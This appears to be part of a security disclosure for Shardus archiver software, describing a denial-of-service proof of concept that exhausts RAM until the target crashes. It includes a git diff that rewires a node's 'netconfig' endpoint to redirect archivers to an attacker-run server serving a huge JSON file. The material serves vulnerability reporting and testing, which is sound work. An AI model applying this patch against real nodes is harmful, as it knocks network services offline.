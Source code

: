 When running the exploit proof-of-concept, the effects start to be noticable when the RAM starts to run out and the eventual crash can take anywhere from few seconds to couple of minutes, depending on the target box resources. I suggest running this against a virtual machine or you'll risk crashing the system you're using yourself. If you want to entertain yourself, try the exploit couple of times to see the full range of possible outcomes.

During the run, you can of course inspect the usage of RAM and network capacity via top or other system monitoring tool.

### Proof-of-Concept: Archiver Node-Fetch Denial-of-Service attack

If you want to test out the Node-Fetch variant of this vulnerability, apply the following patch to the shardus-core repository of the ./exploit\_test folder and compile as on JSON-RPC proof-of-concept. Before applying, set the target exploit server address in the redirect clause at the end:

```
diff --git a/src/network/index.ts b/src/network/index.ts
index ec6f9ad2..5499dca3 100644
--- a/src/network/index.ts
+++ b/src/network/index.ts
@@ -108,6 +108,8 @@ export class NetworkClass extends EventEmitter {
   }
 
   customSendJsonMiddleware(req, res, next) {
+    // MODIFIED, commenting this prevents node crash upon attempting to set already sent headers
+    /*
     const originalSend = res.send;
     res.send = function (data) {
       if (typeof data === 'object' && data !== null) {
@@ -123,7 +125,7 @@ export class NetworkClass extends EventEmitter {
       res.setHeader('Content-Type', 'application/json')
       return originalSend.call(this, jsonString)
     }
-
+    */
     next()
   }
 
diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 06184f15..779bbd28 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -2690,7 +2690,9 @@ class Shardus extends EventEmitter {
       res.send({ config: this.config })
     })
     this.network.registerExternalGet('netconfig', async (req, res) => {
-      res.send({ config: netConfig })
+      // MODIFIED
+      // res.send({ config: netConfig })
+      res.redirect('http://192.168.0.100:8000/huge.json')
     })
 
     this.network.registerExternalGet('nodeInfo', async (req, res) => {
```
